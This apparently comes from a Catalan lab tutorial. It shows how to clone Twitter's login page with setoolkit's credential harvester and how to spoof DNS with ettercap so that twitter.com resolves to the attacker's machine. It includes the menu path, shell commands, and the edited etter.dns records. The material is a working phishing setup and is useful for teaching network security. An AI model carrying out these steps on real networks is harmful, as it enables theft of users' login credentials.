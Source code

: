 \documentclass[]{article}
\begin{document}
Demostració ràpida de com DNS pot ser suplantat utilitzant Kali Linux, i
com el tràfic pot ser redirigit a una pàgina fraudulenta.

Hem decidit fer phishing la pàgina de Twitter utilitzant una eina
anomenada ``setoolkit'' i fer un clonatge de la pàgina de Twitter.

Posteriorment suplantar el registre DNS en la que apuntava a twitter.com
a la nostra màquina, on hi tenim un allotjat una pàgina fraudulenta
utilitzant l'eina.

\emph{Website Attack Vectors -\textgreater{} Creditials Harvestor
-\textgreater{} Clone website / Use Web Template}

Utilitzarem un ``toolkit'' anomenat ``setooklit'' que es permetrà fer
phishing a una pàgina i fer un clonatge perfecte.

\texttt{[image: ./tex2pdf.-2c88d1017c2d161e/30c24d2469ccc294b42630c6115feaeac6b7f5f9.png]}

Podem fer un clonatge d'una pàgina web o també té ``templates'' pre
definides. En aquest exemple utilitzarem el template de
https://www.twitter.com

Tarda una estona.

\texttt{[image: ./tex2pdf.-2c88d1017c2d161e/44bccdec6ac0bd4dd15cfeb35c4ef1620f40c6c4.png]}

\texttt{[image: ./tex2pdf.-2c88d1017c2d161e/53a2dc3d1e97079d48a914c5d363d4ed4b37761a.png]}

Com podem observar la pàgina de Twitter està a la nostra IP
10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la
meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com
apunto a la nostra IP.

\texttt{apt-get\ install\ mlocate}

\texttt{updatedb}

\texttt{locate\ etter.dns}

┌──(root㉿osboxes)-{[}/home/anonymous{]} └─\# locate etter.dns
/etc/ettercap/etter.dns /usr/share/ettercap/etter.dns.examples

\texttt{cp\ /etc/ettercap/etter.dns\ /etc/ettercap/etter.dns.original}

\texttt{vi\ /etc/ettercap/etter.dns}

\begin{verbatim}
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
\end{verbatim}
\end{document}
